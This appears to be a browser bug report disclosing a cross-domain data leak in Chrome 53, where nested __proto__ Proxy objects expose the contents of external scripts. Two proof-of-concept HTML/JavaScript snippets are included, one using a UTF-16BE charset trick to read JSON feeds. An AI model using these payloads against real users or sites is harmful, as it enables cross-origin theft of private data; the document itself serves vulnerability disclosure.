 <b>VULNERABILITY DETAILS</b>
Whilst doing some research at Portswigger I discovered that in Chrome JavaScript Proxies are leaking undefined JavaScript variables. Using this vulnerability I can steal data cross domain.

<script>
__proto__.__proto__.__proto__.__proto__.__proto__=new Proxy(__proto__,{
        has:function f(target,name){
                var str = f.caller.toString();
                alert(str);
        }
});
</script>
<script src="http://external-url/external-script"></script>

<!-- external script contains stealme -->

So although you've blocked a single __proto__ being overwritten with a proxy you forgot how deeply nested __proto__ can go :) what's interesting is that name doesn't leak the data but the caller does the undefined variable is actually a function, toString seems to be required in order to access the text.

It doesn't end there, using this technique I can use a UTF-16BE charset to steal JSON feeds provided that the characters converted combine to produce a valid JavaScript variable.

<script>
__proto__.__proto__.__proto__.__proto__.__proto__=new Proxy(__proto__,{
        has:function f(target,name){
                var str = f.caller.toString();
                alert(str.replace(/./g,function(c){ c=c.charCodeAt(0);return String.fromCharCode(c>>8,c&0xff); }));
        }
});
</script>
<script src="http://external-url/external-script" charset="UTF-16BE"></script>

<!-- external script contains {"abc":"testa"} -->

The anon function in the replace goes through each character and converts it from UTF-16BE by decoding the first and second byte. By shifting 8 bits for the first and masking for the second byte. What's interesting about UTF-16BE is that even new lines are converted since two byes form a character.

I've attached two test cases, one demonstrating the proxy steal vulnerability and one with the UTF-16BE charset vulnerability. Both files require modification to point to the correct external url.

<b>VERSION</b>
Chrome version 53.0.2785.143 64 bit Linux/Windows 10/OS X